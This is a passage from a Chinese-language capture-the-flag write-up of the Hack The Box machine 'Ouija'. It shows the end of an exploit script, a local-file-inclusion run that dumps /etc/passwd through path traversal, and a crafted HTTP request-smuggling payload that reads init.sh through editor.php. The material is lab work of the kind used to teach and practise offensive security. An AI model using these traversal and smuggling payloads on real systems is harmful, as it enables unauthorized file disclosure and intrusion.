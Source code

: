    ```
       print(extracted_content)
   else:
       print("No match found.")
   
   # Close the connection
   client.close()
   ```

   测试后确定LFI的利用方式如下

   ```
   ┌──(root㉿kali)-[/tmp]
   └─# python exploit.py ../../../../../../etc/passwd
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
   ```

   

   确定存在LFI，但是读取的/etc/passwd中没有发现除root外可以用来登录的用户。

   我有尝试过日志投毒的方式，但是这边测试无法正确输出对应的日志内容。

   

5. 来查看一下`http://dev.ouija.htb/editor.php`调用的两个文件

   利用走私请求来查看init.sh中的内容

   ```
   POST /index.html HTTP/1.1
   
   Host: ouija.htb
   
   Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
   
   Content-Length: 62
   
   
   
   GET http://dev.ouija.htb/editor.php?file=init.sh HTTP/1.1
   
   X: GET / HTTP/1.1
   
   Host: ouija.htb
   
   
   ```
